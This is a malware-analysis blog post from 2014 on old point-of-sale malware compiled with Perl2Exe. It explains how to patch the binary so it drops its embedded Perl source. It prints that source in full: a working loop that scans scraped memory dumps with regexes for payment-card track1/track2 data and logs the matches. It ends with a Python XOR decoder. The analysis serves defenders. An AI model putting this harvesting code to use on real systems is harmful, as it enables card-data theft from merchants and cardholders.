






- on Sat 02 August 2014
For this blog post, I'm going to take a look at some old Point of Sale (PoS) malware. While this sample doesn't immediately target data processed by PoS, it does with directly with a memory scraper that does. As such, I'm calling this PoS malware. Specifically, I'm going to take a look at a file that was compiled using the common Perl2Exe utility. The file was originally reported by Visa quite some time ago (read: back in 2009). You can see the original advisory here. So before you start attacking me Internet-style, let me point out that I realize this sample is very old. I actually have looked at a number of these files in the past, and was just looking for a good example that I could use for this blog post. That being said, I hope you find this blog post helpful in the event you ever stumble on some Perl2Exe malware. I personally love it when I see Perl2Exe, because I know that raw source code (with comments) is just around the corner. So let's take a look at this sample. This sample surprisingly still has an attrocious detection rate (7/53 at the time of writing) even though it has been around for almost 5 years now. Well, so be it. Before I dig into the technical details, let's take a few seconds to briefly describe what this malware is.
In short, the malware is a component of a three-piece family that is used to scrape track data from the memory of a PoS machine. One component is responsible for running the other two executables (1. the memory scraper and 2. the Perl2Exe that we're discussing). A second component is responsible for parsing memory of the running processes, and searching for track data. If track data is discovered, it is written to a file in the 'memdump' subdirectory that this malware creates. The third component is the one we're discussing today-- a Perl2Exe file that is responsible for encrypting any track data that was discovered by the memory scraper. We'll dig into how exactly it does that shortly. Before we can get into the specifics though, let's tear apart this Perl2Exe and get some raw source code.
When extracting the source code from a binary that has been compiled with Perl2Exe, it's important to understand what happens early in the process. At a high level, the binary will drop a number of dependencies to a folder in the %TEMP% directory. Typically, the folder has a name with the following format:
- p2xtmp-[numbers]
The binary will then load the raw Perl code into memory and execute it. Now, the Perl2Exe uses a simple series of strcmp statements in order to determine if a file should be dropped to disk (in that previously created p2xtmp-* directory) or not. By modifying that strcmp statement, we can trick the Perl2Exe file into dropping the raw Perl (.pl) file to disk instead of loading it into memory. We begin by setting a breakpoint at 'call eax' directly after the Perl2Exe drops and loads the p2x588.dll library.

We then proceed to step into this function (The RunPerl function from p2x588.dll). Prior to this, we can see that the new random-generated folder has been created in %TEMP%, and that the p2x588.dll file has been dropped there:

Once we step into the RunPerl function, we identify the first call instruction, we seen below:

We proceed to step into this function and identify a number of strcmp statements, as shown below:

Now, at this point we can see that the Perl2Exe is checking the file extension of every embedded file, and determining whether it needs to drop it to disk. There are a number of extensions it will check, but if it determines that a file is a .dll, .pll, .so, etc. it will drop it to the p2xtmp-* folder. By modifying the first Jump Not Zero (jnz) statement at 0x28091ACF to a Jump Zero (jz) statement instead, the Perl2Exe will drop any embedded files that are not DLLs.A simple hex modification from '0F 84' to '0F 85' allows us to easily make this change.

We can now run the program normally. It will not execute, as the required files will not be able to be loaded, but it will drop the file(s) we care about, as shown below:

Success! We now have the raw Perl (.pl) file. I've cleaned it up a bit and included it below:
$sleeptime="2";
$dirmon="memdump";
$logfile="dirmon.chm";
use Win32API::File::Time qw{:win};
use FileHandle;
$debug='on';
$monitoring=0;
if ( defined($ARGV[1]) ) {
$maxdirlevel=$ARGV[1];
} else {
$maxdirlevel=5;
};
$regextrack1='((b|B)(([0-9]{13,16})|([0-9]|\s){13,25})\^[A-Za-z\s0-9]{0,30}\/[A-Za-z\s0-9]{0,30}\^(0[7-9]|1[0-5])((0[1-9])|(1[0-2]))([0-9]|\s){3,50})';
$regextrack2 = '([0-9]{15,16}(D|=)(0[7-9]|1[0-5])((0[1-9])|(1[0-2]))[0-9]{8,30})';
print "State: Loading, please wait...\n";
while (1==1) {
&recursion($dirmon,0);
print "State: Monitoring\n" if $monitoring==0;
$monitoring=1 if $monitoring==0;
sleep $sleeptime;
};
sub recursion {
my $dirmon=$_[0];
my $level=$_[1];
return if $level > $maxdirlevel;
local *DH;
opendir(DH, $dirmon) or return "Couldn't open $dirmon for reading: $!";
while( my $file = readdir(DH) ) {
($atime, $mtime, $ctime) = GetFileTime ("$dirmon/$file");
next if ( -d "$dirmon/$file" ) && ( $dirtimes{"$dirmon/$file"} == $atime );
$dirtimes{"$dirmon/$file"} = $atime if ( -d "$dirmon/$file" );
&recursion("$dirmon/$file",$level+1) if ( -d "$dirmon/$file" ) && ( "$file" ne "." ) && ( "$file" ne ".." );
if ( $messages eq "on" ) { print "Trying file: $dirmon/$file\n";};
if ( (-f "$dirmon/$file" ) && ( $file ne $logfile) ) {
if ( $filetimes{"$dirmon/$file"} != $mtime ) {
&file_parse("$dirmon/$file");
$filetimes{"$dirmon/$file"} = $mtime;
};
};
};
($atime, $mtime, $ctime) = GetFileTime ("$dirmon");
$dirtimes{"$dirmon"} = $atime if ( -d "$dirmon" );
return;
};
sub writedown {
$wd=$_[0];
open(CUR,">>$logfile");
print CUR $wd;
close(CUR);
};
sub file_parse {
my $path=$_[0];
my $fh = new FileHandle;
my $mtime = 0, my $ctime = 0, my $atime = 0;
($atime, $mtime, $ctime) = GetFileTime ($path);
my $time=time;
($sec,$min,$hour,$mday,$mon,$year,$wday,$yday,$isdst)=localtime(time);
print "$mon/$mday $hour:$min:$sec Updated/new file: $path ... " if $debug eq 'on';
return if ( !(defined($mtime)) || !(defined($ctime)) );
$mtime = $ctime if ( $ctime > $mtime );
if (!$fh -> open("< $path")) {
print "error opening file!\n" if $debug eq 'on';
return;
};
print "OK\n" if $debug eq 'on';
my $block = ""; my $printed=0;
my $total++; my $prevblock = ""; my $readblock = "";
while (read($fh,$block,65536)) {
$readblock = $prevblock . $block;
if ( $readblock =~ $regextrack1 ) {
if ( $printed == 0 ) { print "File: $path (track1)\n"; $printed=1; };
while ( $block =~ /$regextrack1/g ) {
&writedown("$path found (track1): $1\n") if $seentrack1{$1} <= 0;
$seentrack1{$1}++;
}
};
if ( $readblock =~ $regextrack2 ) {
if ( $printed == 0 ) { print "File: $path (track2)\n"; $printed=1; };
while ( $block =~ /$regextrack2/g ) {
&writedown("$path found (track2): $1\n") if $seentrack2{$1} <= 0;
$seentrack2{$1}++;
}
};
$prevblock = $block;
};
$fh->close;
};
For those that don't feel like reading Perl source code (and really, who could blame you), I'll provide a quick summary of what this malware does. The malware begins by configuring a few settings. Namely, it configures a directory that will be monitored ('memdump'), a sleep timer ('2'), and an output file ('dirmon.chm'). It also configured two regular expressions that will be used to find track1 and track2 data. The malware proceeds to check the directory specified in an infinite loop, sleeping for 2 seconds (as was previously configured) before repeating the loop. The Perl code recursively checks the directory, searching for any files. If a file is discovered, it will read in that file's data, and look for track data using the two regular expressions. If any data is found, it is written to the output file ('dirmon.chm'). And that's really all there is to this malware.
As a way of understanding how this malware works-- The memory scraper that was previously mentioned is run, and any discovered data is written to separate files in the 'memdump' directory. Apparently, this group either didn't have access to the source code of the memory scraper, or lacked the knowledge necessary to modify it. Instead, they decided to write a new component in Perl that will aggregate any data found. New variants of this Perl2Exe encrypt the discovered data using a simple XOR scheme. The XOR key of 'memdump' or 'anonymousgroup' has been seen in a number of samples. This XOR scheme can easily be defeated using the following Python code:
from itertools import cycle, izip
from sys import argv
# Using some code from http://dustri.org/b/elegant-xor-encryption-in-python.html
# for the XOR function.
def xor(message, key):
return ''.join(chr(ord(c)^ord(k)) for c,k in izip(message, cycle(key)))
try:
f = open(argv[1], 'r')
data = f.read()
f.close
for x in data.split("$$$"):
print "%r" % xor(x.replace("\r",''), "anonymousgroup")
except IndexError:
print "Usage: %s [file]" % argv[0]
exit(1)